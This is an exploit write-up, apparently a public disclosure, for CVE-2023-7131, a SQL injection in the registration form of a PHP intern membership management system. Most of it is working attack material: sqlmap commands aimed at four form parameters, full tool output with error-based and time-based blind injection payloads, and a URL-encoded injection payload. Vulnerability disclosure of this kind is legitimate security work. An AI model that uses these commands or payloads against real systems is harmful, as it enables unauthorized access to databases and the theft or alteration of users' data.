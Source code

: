 # CVE-2023-7131_Intern_Membership_Management_System-SQL-Injection
+ **Exploit Title:** CVE-2023-7131_Intern_Membership_Management_System-SQL-Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-2023-7131

## References: 
+ **CVE-2023-7131:** https://vuldb.com/?id.249134
+ https://www.cve.org/CVERecord?id=CVE-2023-7131

## Description:
Intern Membership Management System 2.0 allows SQL Injection via parameters 'userName', 'firstName', 'lastName', and 'gender' in "/intern/user_registration/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Fill the form and click 'Register' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'userName', 'firstName', 'lastName', and 'gender' parameters to dump the database. 
+ `python sqlmap.py -r r.txt -p userName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:08:01] [INFO] parsing HTTP request from 'r.txt'
[23:08:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test'||(SELECT 0x41516658 WHERE 5902=5902 AND (SELECT 6279 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(6279=6279,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test'||(SELECT 0x4b4f7742 WHERE 6652=6652 AND (SELECT 1818 FROM (SELECT(SLEEP(5)))EDSH))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:08:03] [INFO] testing MySQL
[23:08:03] [INFO] confirming MySQL
[23:08:03] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:08:03] [INFO] fetching current database
[23:08:03] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p firstName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:10:30] [INFO] parsing HTTP request from 'r.txt'
[23:10:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test'||(SELECT 0x72666763 WHERE 6198=6198 AND (SELECT 3585 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(3585=3585,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test'||(SELECT 0x4c58726c WHERE 5649=5649 AND (SELECT 7272 FROM (SELECT(SLEEP(5)))edvW))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:10:32] [INFO] testing MySQL
[23:10:33] [INFO] confirming MySQL
[23:10:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:10:33] [INFO] fetching current database
[23:10:33] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p lastName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: lastName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x75425548 WHERE 3456=3456 AND (SELECT 4050 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(4050=4050,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x49745477 WHERE 1875=1875 AND (SELECT 8777 FROM (SELECT(SLEEP(5)))cVgI))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:13:41] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:13:41] [INFO] fetching current database
[23:13:41] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p gender --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: gender (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x73574b73 WHERE 9608=9608 AND (SELECT 9046 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(9046=9046,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x67657950 WHERE 3206=3206 AND (SELECT 2290 FROM (SELECT(SLEEP(5)))OKGZ))||'&terms=on&register-user=Register
---
[23:17:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:17:12] [INFO] fetching current database
[23:17:12] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ current database: `db_issm`
![1_sqlmap](https://github.com/h4md153v63n/CVEs/assets/5091265/ab492034-196a-4f84-b0d0-3fbbbc25ae87)

+ Example payload:
```
-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27
```
![1_burp](https://github.com/h4md153v63n/CVEs/assets/5091265/910b1684-ab8a-4da2-874f-ff75c38eb727)
